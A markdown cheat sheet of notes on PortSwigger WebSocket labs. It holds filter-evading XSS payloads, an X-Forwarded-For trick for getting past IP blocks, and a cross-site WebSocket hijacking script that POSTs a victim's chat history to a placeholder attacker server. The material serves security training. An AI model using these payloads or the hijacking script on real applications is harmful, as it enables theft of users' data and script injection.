 # WebSockets


## Summary

* [Recon for WebSockets](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

* **View the .pdf file in the folder for more details, the file can be viewed inline without needing to download it**

<br>

## Resources

* https://portswigger.net/web-security/websockets

<br>

## Recon


### Identify WebSockets Requests

* On the Proxy tab in Burp Suite, there is a “WebSockets history” section.  This section will contain any WebSockets messages initiated by the application.  If this section has any requests, then the application is using WebSockets.

* After identifying that WebSockets are in use, the 3 labs on this document can help to formulate ideas to attack the application.

<br>

## Cheat Sheet

### XSS Exploit

* Submit an XSS payload within a parameter in the WebSocket message.  The application is returning this value without any input validation or encoding, and it is between some HTML tags, so the data is executed as JavaScript code.

<br>

### XSS Exploit + Brute Force Bypass

* Use the WebSockets to exploit an XSS vulnerability.  If the application is blacklisting your IP address, try using the X-Forwarded-For header to spoof the IP address.  Try a variety of different payloads depending on how the application responds.  

* Final XSS payload used backticks since the application was not allowing to use parethesis:

   * {"message":"Test\<img src=x oNeRRoR=alert\`1\`\>"}
 
* Another payload that worked was HTML encoding the "alert" keyword:

   * {"message":"\<img src=x OnErRoR=\&#97;\&#108;\&#101;\&#114;\&#116;(1)\>"}
  
<br>

### Cross-site WebSocket Hijacking

* Identify if the WebSockets Handshake request is vulnerable to Cross-Origin WebSocket Hijacking/CSRF attack.  The handshake request can be identified by looking for the following headers in the WebSockets requests:


    * Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==


    * Connection: keep-alive, Upgrade

    
    * Upgrade: websocket


* If the handshake request relies solely on session cookies and does not contain any unpredictable parameters, then it is vulnerable to a CSRF attack.  Depending on how the application uses the WebSocket's, we can perform unauthorized actions or retrieve sensitive data that the user can access.

   * Example:  The payload below can be used to retrieve sensitive information from the application that belongs to another user.  When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received.  When the messages are received from the server, they will be sent to attacker's server.  This is possible as cross-site websocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

```javascript
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ATTACKER-SERVER', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


<br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet or attached document.
